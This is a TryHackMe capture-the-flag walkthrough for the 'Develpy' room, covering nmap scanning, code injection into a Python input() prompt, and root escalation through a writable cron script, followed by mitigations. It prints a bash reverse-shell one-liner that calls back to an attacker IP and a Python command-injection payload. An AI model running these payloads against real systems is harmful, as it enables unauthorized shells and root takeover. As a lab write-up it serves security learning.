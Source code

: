 # 🟩Develpy - Try Hack Me (THM) Walkthrough Report  

**Prepared by:** Nishanth Antony  
**Date:** October 29, 2025  
**Difficulty:** Medium  
**Category:** Web Exploitation / Privilege Escalation  
**Platform:** TryHackMe (THM)  

---

## 1. Reconnaissance Steps

- **Objective:** Identify open ports, services, and potential vulnerabilities.
- **Commands Used:**  
  ```bash
  nmap -p- -sV --min-rate=1000 10.201.68.213 -T4 -v
  ```
- **Findings:**
  - Open ports: SSH (22), Unknown service (10000).
  - SSH version: OpenSSH 7.2p2 Ubuntu 4ubuntu2.8.
  - Port 10000 ran a Python script (`exploit.py`) prompting for the number of exploits to send, with a response indicating a potential code execution vulnerability.

---

## 2. Exploitation Process

### Step 1 – Service Enumeration (Port 10000)
- Connected to port 10000 using `nc`:
  ```bash
  nc 10.201.68.213 10000
  ```
- Received prompt: `Please enther number of exploits to send??`.
- Inputting a number (e.g., `1`) returned a message about attacking `tryhackme.com` with details like `beacons_seq=1 ttl=1337 time=0.01 ms`.
- Non-numeric input (e.g., `a`) triggered a Python `NameError`, revealing the script (`exploit.py`) was vulnerable to code injection via the `input()` function.

### Step 2 – Code Injection
- Exploited the Python script’s `input()` function to execute arbitrary code:
  ```bash
  nc 10.201.68.213 10000
  __import__('os').system('bash')
  ```
- **Result:** Gained a shell as user `king` (uid=1000, member of `adm`, `cdrom`, `dip`, `plugdev`, `lpadmin`, `sambashare` groups).
- Found files in `/home/king`: `credentials.png`, `exploit.py`, `root.sh`, `run.sh`, `user.txt`.
- Extracted `user.txt` (flag redacted).

### Step 3 – Privilege Escalation Analysis
- Inspected `/etc/crontab` to identify scheduled tasks:
  ```bash
  cat /etc/crontab
  ```
- Found cron jobs running every minute:
  - `king` user: Executes `/home/king/run.sh`.
  - `root` user: Executes `/home/king/root.sh` and `/root/company/run.sh`.

### Step 4 – Privilege Escalation via Cron Job
- Noticed `root.sh` in `/home/king` was writable by `king` and executed by `root` via cron.
- Overwrote `root.sh` with a reverse shell payload:
  ```bash
  echo "bash -i >& /dev/tcp/10.23.156.151/4444 0>&1" > root.sh
  ```
- Later refined the payload and set execution permissions:
  ```bash
  rm root.sh
  echo 'bash -i >& /dev/tcp/10.23.156.151/6969 0>&1' > root.sh
  chmod +x root.sh
  ```
- Set up a listener on the attack machine:
  ```bash
  nc -lvnp 6969
  ```
- **Result:** Received a root shell (`root@ubuntu`) when the cron job executed `root.sh`.

### Step 5 – Flag Extraction
- Navigated to `/root` and found `root.txt` (flag redacted).
- Also identified `/root/company` directory and additional files in `/home/king` (`test.txt`, `root.txt`).

---

## 3. Proof of Concept (PoC)

- **Code Injection:**  
  ```bash
  nc 10.201.68.213 10000
  __import__('os').system('bash')
  ```
  Gained `king` user shell.
- **Cron Job Exploitation:**  
  Overwrote `/home/king/root.sh`:
  ```bash
  echo 'bash -i >& /dev/tcp/10.23.156.151/6969 0>&1' > root.sh
  chmod +x root.sh
  ```
  Set up listener:
  ```bash
  nc -lvnp 6969
  ```
  Obtained `root` shell.
- **Flag Retrieval:**  
  Accessed `/home/king/user.txt` and `/root/root.txt` (flags redacted).

---

## 4. Privilege Escalation

- Exploited a cron job running `root.sh` as `root` from a writable directory (`/home/king`).
- Injected a reverse shell payload into `root.sh`, executed by the cron job, granting `root` access.

---

## 5. Mitigation Recommendations

- **Service Hardening:**  
  - Secure port 10000 by removing or restricting access to `exploit.py`.
  - Sanitize user input in Python scripts to prevent code injection (e.g., avoid `input()` for untrusted input).
- **Cron Job Security:**  
  - Ensure scripts executed by cron (e.g., `root.sh`) are not writable by non-root users.
  - Restrict cron jobs to non-sensitive directories or use absolute paths for root-owned scripts.
- **File Permissions:**  
  - Remove write permissions for non-root users on files executed by `root` (e.g., `chmod 644 root.sh`).
- **Network Security:**  
  - Limit SSH and port 10000 access to trusted IPs using firewall rules.
  - Monitor network traffic for suspicious reverse shell connections.
- **Patch Management:**  
  - Update OpenSSH (7.2p2 is outdated) to the latest version.
  - Regularly audit cron jobs and running services for misconfigurations.

---

## 6. Lessons Learned

- **Input Validation:** Python scripts using `input()` are vulnerable to code injection if not sanitized.
- **Cron Job Misconfigurations:** Scripts executed by `root` in user-writable directories enable privilege escalation.
- **File Permissions:** Insecure permissions on critical scripts can lead to system compromise.
- **Service Exposure:** Open ports running custom scripts (e.g., port 10000) can expose vulnerabilities if not properly secured.

---

## 7. Skills Practiced

- Network and service scanning (`nmap`)
- Service enumeration with `netcat`
- Python script exploitation via code injection
- Cron job analysis and privilege escalation
- Reverse shell creation and handling
- Secure reporting and mitigation strategies

---
